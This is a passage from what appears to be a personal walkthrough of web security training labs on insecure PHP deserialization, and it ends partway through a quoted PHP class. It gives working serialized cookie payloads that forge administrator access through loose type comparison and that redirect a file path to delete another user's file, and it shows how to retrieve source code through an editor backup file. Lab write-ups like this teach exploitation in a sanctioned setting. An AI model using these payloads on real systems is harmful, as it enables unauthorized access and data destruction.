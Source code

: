 Change it to gain admin access by make use of the above note:

    O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}==

The `access_token` value is now an integer `0` which when comparing with any string that doesn't start with a number will return true (base on the above note). Encode it using Base64 then URL encode it and send that along with any request to gain access to the admin panel.

### LAB: Using application functionality to exploit insecure deserialization
Decode the cookie value with Base64. Got this serialized string:

    O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"fvb13kfexkwmv9jksvk12nkgxcs1e8yl";s:11:"avatar_link";s:18:"users/gregg/avatar";}

Change the `avatar_link` value, so when deleting the account, it also delete Carlos's file:

    O:4:"User":3:{s:8:"username";s:5:"gregg";s:12:"access_token";s:32:"fvb13kfexkwmv9jksvk12nkgxcs1e8yl";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}

Use this cookie (Base64 and URL encode it) along with the `POST /my-account/delete HTTP/2` request to solve the lab.

### LAB: Arbitrary object injection in PHP
Crawl through the source code and found this comment: 

    <!-- TODO: Refactor once /libs/CustomTemplate.php is updated -->

Try visit this by retrieving an editor-generated backup file of this file using: `/libs/CustomTemplate.php~` and found the source code:

    <?php

    class CustomTemplate {
        private $template_file_path;
        private $lock_file_path;

        public function __construct($template_file_path) {
            $this->template_file_path = $template_file_path;
            $this->lock_file_path = $template_file_path . ".lock";
        }

        private function isTemplateLocked() {
            return file_exists($this->lock_file_path);
        }

        public function getTemplate() {
            return file_get_contents($this->template_file_path);
        }

        public function saveTemplate($template) {
            if (!isTemplateLocked()) {
                if (file_put_contents($this->lock_file_path, "") === false) {
                    throw new Exception("Could not write to " . $this->lock_file_path);
                }
                if (file_put_contents($this->template_file_path, $template) === false) {
                    throw new Exception("Could not write to " . $this->template_file_path);
                }
            }
        }
